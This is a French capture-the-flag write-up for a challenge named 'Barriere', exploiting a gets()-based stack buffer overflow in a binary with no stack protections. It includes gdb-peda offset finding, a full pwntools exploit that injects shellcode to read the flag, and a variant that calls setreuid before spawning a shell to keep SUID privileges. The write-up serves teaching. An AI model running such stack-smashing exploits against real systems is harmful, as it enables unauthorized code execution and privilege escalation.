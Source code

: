 # Barriere

![barriere](barriere.png)

## Write-Up

### Première exécution

Les interactions avec le challenge sont assez simples :
- Le serveur nous donne ce qui semble être un accès SSH
- On y trouve un programme nommé `barriere`
- Le programme nous renvoit une chaîne de caractères
- Le programme lit un input
- Le programme quitte

```bash
$ ssh opennc@challs.hackagou.nc 5001
$ ./barriere
Show me your style!
Je bloque à 0x7ffedf64b8b0
AAAAAA
```

### Analyse statique

Le challenge nous permet de télécharger le binaire à exploiter sur le serveur.

En regardant rapidement le code, on trouve la fonction main qui correspond au code suivant :

```c
int main(void)

{
  char user_input [64];

  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_004006f8);
  printf("Je bloque à %p\n",user_input);
  gets(user_input);
  return 0;
}
```

On remarque que l'adresse leakée est celle de notre input (sur la stack).
Par ailleurs, il n'y a pas de contrôle sur la taille de l'input qui va être stocké dans un buffer de 64 octets

Niveau protection, rien de particulier, la stack permet l'exécution de code et aucun canary n'y est placé :

```bash
$ checksec barriere
[*] '/home/opennc/barriere'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Il reste à supposer que l'ASLR est activée sur le serveur, ce qui est confirmé en relançant deux fois le challenge, l'adresse du leak change.


### Exploit

Avec tout ça, on conclut rapidement que c'est un buffer overflow et donc suivre les instructions habituelles de ce type de vulnérabilité :
- Remplir le buffer
- Ecraser la sauvegarde de RIP sur la stack (avec une adresse pointant sur notre shellcode)
- Poser un shellcode sur la stack

Nous trouvons facilement l'offset du RIP via peda (création d'une chaîne de 256 caractères et utilisation lors de l'input du programme)

```
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ run
Starting program: /home/opennc/barriere 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Show me your style!
Je bloque à 0x7ffea3db4e40
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.


[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7f0fbd8ddaa0 --> 0xfbad2288 
RDX: 0x1 
RSI: 0x1 
RDI: 0x7f0fbd8dfa80 --> 0x0 
RBP: 0x4141334141644141 ('AAdAA3AA')
RSP: 0x7ffea3db4e88 ("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
RIP: 0x4005ba (<main+67>:	ret)
R8 : 0x0 
R9 : 0x0 
R10: 0x77 ('w')
R11: 0x246 
R12: 0x7ffea3db4f98 --> 0x7ffea3db5829 ("/home/opennc/barriere")
R13: 0x400577 (<main>:	push   rbp)
R14: 0x0 
R15: 0x7f0fbd92c040 --> 0x7f0fbd92d2e0 --> 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero[ sign trap INTERRUPT direction overflow)
[..]]
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004005ba in main ()
```

On cherche quelle instruction a pu pousser le programme à l'erreur de segmentation.

<pre><code>gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffdc48:
 rip = 0x4005ba in main; <b><ins>saved rip = 0x4134414165414149</ins></b>
 called by frame at 0x7fffffffdc58
 Arglist at 0x4141334141644141, args: 
 Locals at 0x4141334141644141, Previous frame's sp is 0x7fffffffdc50
 Saved registers:
  rip at 0x7fffffffdc48</code></pre>

RIP pointait sur 0x4134414165414149 qui correspond à IAAeAA4A en little-endian. Utilisation de *pattern_offset* afin de trouver l'offset de cette chaîne qui nous servira à écraser RIP.

```
gdb-peda$ pattern_offset IAAeAA4A
IAAeAA4A found at offset: 72
```

Nous devons donc réécrire l'adresse fournie par le programme jusqu'au 72ème octet, écrire l'adresse de notre shellcode (adresse reçue du programme + 72 + 8) et placer notre shellcode.

Ce qui donne, en utilisant pwntools et un simple shellcode 'cat flag.txt' :

```python
from pwn import *

context.clear(arch='amd64')
s = ssh(host='challs.hackagou.nc', port=5001, user='opennc', password='opennc')

p = s.process('./barriere')

resp = p.recvuntil(b'0\n')
buff_add = resp.split(b'\n')[1].split(b' ')[3]
log.success("Leak : " + buff_add.decode())

shell_addr = int(buff_add.decode(), 16) + 72 + 8
log.success("shell_addr : " + hex(shell_addr))

payload = b"\x90" * 72
payload += p64(shell_addr)
payload += asm(shellcraft.cat('flag.txt'))

p.sendline(payload)
print(p.recvline().decode())
```

```bash
$ python3 pwn-barriere.py
[+] Connecting to challs.hackagou.nc on port 5001: Done
[*] opennc@challs.hackagou.nc:
    Distro    Ubuntu 22.04
    OS:       linux
    Arch:     amd64
    Version:  5.15.0
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./barriere') on 127.0.0.1: pid 81
[+] Leak : 0x7ffd90f9c7e0
[+] shell_addr : 0x7ffd90f9c840
OPENNC{BufF3R_0v3r_t3h_F10w}
```

Pour ceux qui souhaitaient utiliser un bash ou un sh, il est nécessaire de faire un setreuid() avant l'appel du shell afin de récupérer les droits du SUID.

```
# Autre possibilité via un shell
payload += asm(shellcraft.setreuid() + shellcraft.sh())
p.sendline(payload)
p.interactive()
```
